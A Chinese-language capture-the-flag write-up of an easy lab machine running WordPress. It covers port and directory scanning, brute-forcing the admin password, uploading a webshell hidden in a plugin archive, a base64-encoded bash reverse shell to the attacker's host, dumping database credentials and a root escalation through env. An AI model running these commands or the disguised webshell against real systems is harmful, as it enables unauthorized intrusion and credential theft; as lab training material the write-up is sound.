








## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/walkingcms  
❯ nmap 172.17.0.2 -sV  -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-22 09:39 CST
Nmap scan report for 172.17.0.2
Host is up (0.000090s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.09 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.87 seconds
```

进入网页后是**apache**的默认页面



## Dirsearch

```
[root@kali] /home/kali/walkingcms  
❯ dirsearch -u 172.17.0.2 -t 50                                                                
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                                                     
                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/walkingcms/reports/_172.17.0.2/_25-02-22_09-42-07.txt

Target: http://172.17.0.2/

[09:42:07] Starting:                                                                                                                                        
[09:42:08] 403 - 275B  - /.ht_wsr.txt                                      
[09:42:08] 403 - 275B  - /.htaccess.sample
[09:42:08] 403 - 275B  - /.htaccess.orig                                   
[09:42:08] 403 - 275B  - /.htaccess.bak1                                   
[09:42:08] 403 - 275B  - /.htaccess_extra                                  
[09:42:08] 403 - 275B  - /.htaccess_orig
[09:42:08] 403 - 275B  - /.htaccess_sc
[09:42:08] 403 - 275B  - /.htaccess.save
[09:42:08] 403 - 275B  - /.htaccessOLD2                                    
[09:42:08] 403 - 275B  - /.htm
[09:42:08] 403 - 275B  - /.html
[09:42:08] 403 - 275B  - /.htaccessBAK                                     
[09:42:08] 403 - 275B  - /.htpasswd_test
[09:42:08] 403 - 275B  - /.htaccessOLD
[09:42:08] 403 - 275B  - /.htpasswds                                       
[09:42:08] 403 - 275B  - /.httr-oauth                                      
[09:42:09] 403 - 275B  - /.php                                             
[09:42:28] 403 - 275B  - /server-status                                    
[09:42:28] 403 - 275B  - /server-status/
[09:42:35] 200 - 11KB - /wordpress/                                        
[09:42:38] 200 - 3KB - /wordpress/wp-login.php

Task Completed                       
```

发现存在**wordpress**目录

## WPscan

```
[root@kali] /home/kali/walkingcms  
❯ wpscan --url "http://172.17.0.2/wordpress/" -e
```



存在用户名为：**mario**，针对其进行密码爆破

```
[root@kali] /home/kali/walkingcms  
❯ wpscan --url "http://172.17.0.2/wordpress/" -U username.txt -P /usr/share/wordlists/rockyou.txt 
```



得到密码为：**love**，登录进入后台

## RevShell

这里我的思路是上传一个**Webshell**管理工具

先到**wordpress**的插件市场里随便下载一个

- [健康检查与故障排除 – WordPress 插件 | WordPress.org China 简体中文](https://cn.wordpress.org/plugins/health-check/)

然后将**webshell.php**插入压缩包再上传



访问下面的**URL**路径即可进行命令执行

```
http://172.17.0.2/wordpress/wp-content/plugins/health-check/webshell.php?cmd=
```

这里我使用的是**Base64**编码后再反弹，避免特殊字符的影响

```
echo%20%22YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS8xMDAgMD4mMQ==%22%7Cbase64%20-d%7Cbash
```



在**/home**目录下没有发现其他用户

查看`wp-config.php`能看到有数据库的用户名和密码



```
/** Database username */
define( 'DB_USER', 'wordpressuser' );

/** Database password */
define( 'DB_PASSWORD', 't9sH76gpQ82UFeZ3GXZS' );
```

不过里面没有东西。

上传**linpeas**查看详细信息



发现存在**env**的命令

- [env | GTFOBins](https://gtfobins.github.io/gtfobins/env/)



直接提升到**root**权限

## Summary

`www-data`：**WPscan**可以扫描出**wordpress**存在的用户名，再对密码进行爆破，成功登录后台。通过上传插件的方式反弹**shell**，灵感来源于[【靶机实战】WordPress – 花咲雨町 靶机解题思路 - 极核GetShell](https://get-shell.com/6494.html)

`Root`：通过**linpeas**输出发现可以通过**env**提权。
